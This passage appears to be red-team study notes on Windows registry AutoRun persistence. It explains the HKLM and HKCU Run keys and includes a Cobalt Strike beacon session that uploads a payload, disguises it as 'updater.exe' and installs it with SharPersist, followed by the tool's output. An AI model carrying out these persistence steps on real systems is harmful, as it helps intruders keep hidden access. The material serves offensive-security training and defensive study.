## Registry AutoRun

**AutoRun** values in **HKCU** and **HKLM** allow **applications** to **start upon boot**.

### HKLM

This is a Registry value (`HKEY_LOCAL_MACHINE`) that stores system-wide settings that apply to ALL users and hardware.

### HKCU

This is another Registry value (`HKEY_CURRENT_USER`) that stores configuration data and preferences that are _**specific to a single (or currently logged in)**_ user.

### Usage

You will commonly see these to start native and third-party applications such as software updating utilities, download assistants, driver utilities, and so on.&#x20;

{% code overflow="wrap" %}
```
beacon> cd C:\ProgramData
beacon> upload C:\Payloads\http_x64.exe
beacon> mv http_x64.exe updater.exe
beacon> execute-assembly C:\Tools\SharPersist\SharPersist\bin\Release\SharPersist.exe -t reg -c "C:\ProgramData\Updater.exe" -a "/q /n" -k "hkcurun" -v "Updater" -m add

[*] INFO: Adding registry persistence
[*] INFO: Command: C:\ProgramData\Updater.exe
[*] INFO: Command Args: /q /n
[*] INFO: Registry Key: HKCU\Software\Microsoft\Windows\CurrentVersion\Run
[*] INFO: Registry Value: Updater
[*] INFO: Option: 
[+] SUCCESS: Registry persistence added
```
{% endcode %}

**Syntax information:**

* `-k` is the registry key to modify.
* `-v` is the name of the registry key to create.

{% hint style="info" %}
:bulb:It is a common misconception that an HKLM autorun will execute the payload as `SYSTEM`, but this is false.

An HKCU autorun will _**only**_ trigger once the owner of the hive logs into the machine.&#x20;

An HKLM autorun will trigger when any user logs into the machine, but it will still run under the context of the user's account.
{% endhint %}

## Hunting for COM Hijacks
